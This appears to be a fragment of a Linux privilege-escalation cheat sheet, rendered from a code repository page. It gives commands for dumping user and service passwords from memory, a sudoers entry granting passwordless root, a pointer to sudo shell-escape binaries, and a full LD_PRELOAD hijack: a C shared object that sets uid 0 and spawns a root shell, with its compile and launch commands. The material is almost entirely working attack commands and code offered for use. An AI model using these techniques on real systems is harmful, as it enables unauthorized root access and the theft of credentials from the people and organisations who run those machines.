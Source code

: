 ### Memory Dump - User Passwords

```shell
./mimipenguin.sh
```

### Memory Dump - Service Passwords

```shell
./dump-memory PID
grep root *.dump
strings DUMPFILE
```

---

# SUDO

### ALL & NOPASSWD Permissions

```shell
nano /etc/sudoers

> username ALL=(ALL) NOPASSWD:ALL
```

### Shell Escape Sequences - Binaries

```shell
sudo -l
# gtfobins
```

### Dynamic Linker Hijacking - LD_PRELOAD

```shell
ldd /usr/bin/program_name
```

```python
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

```shell
gcc shell.c -o shell.so -shared -fPIC -nostartfiles -w

sudo LD_PRELOAD=shell.so program_name
```

---